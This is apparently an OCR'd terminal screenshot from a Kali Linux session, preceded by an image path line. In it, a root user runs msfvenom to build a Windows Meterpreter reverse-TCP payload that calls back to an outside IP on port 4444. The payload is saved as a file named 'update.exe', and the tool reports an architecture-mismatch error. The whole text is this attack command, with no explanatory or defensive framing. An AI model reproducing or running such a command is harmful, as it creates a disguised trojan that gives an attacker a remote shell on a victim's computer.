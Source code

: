 # all
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp lhost=47.30.217.62 lport=4444 -f exe -a x64 >update.exe [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload Error: The selected arch is incompatible with the payload root@kali:~# 

